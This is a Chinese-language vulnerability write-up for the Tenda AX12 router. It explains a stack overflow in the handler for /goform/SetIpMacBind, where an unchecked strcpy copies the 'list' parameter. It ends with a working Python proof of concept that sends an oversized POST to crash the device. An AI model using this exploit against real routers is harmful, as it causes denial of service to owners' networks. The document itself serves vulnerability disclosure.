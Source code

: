 ## 漏洞描述 ##
设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：栈溢出

攻击效果：拒绝服务

## 漏洞成因 ##
该漏洞为发生在sub_42FDE4函数中的栈溢出漏洞，对应上级接口函数为sub_430124，对应的是处理/goform/SetIpMacBind下的post请求

首先，sub_430124调用了sub_42FFF8函数。

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-20-26.png)

sub_42FFF8函数中，获取post传入的两个参数bindnum和list，并且会将list值的地址作为sub_42FDE4函数的参数。

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-28-01.png)



sub_42FDE4，strcpy(v16, v6)，v6就是传入的list参数，而在这一过程中没用任何的长度限制与安全检查，由此攻击者可以通过一串长list造成栈溢出，实现拒绝服务攻击。

![](https://github.com/The-Itach1/IOT-CVE/blob/master/Tenda/AX12/1/image/Snipaste_2022-07-30_18-33-51.png)



## POC ##

拒绝服务的poc：

```python

import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
cookie = {"Cookie":"password=1111"}
data = {"bindnum": "1", "list":"\r" + "A" * 1000}


requests.post(url, cookies=cookie, data=data)
```
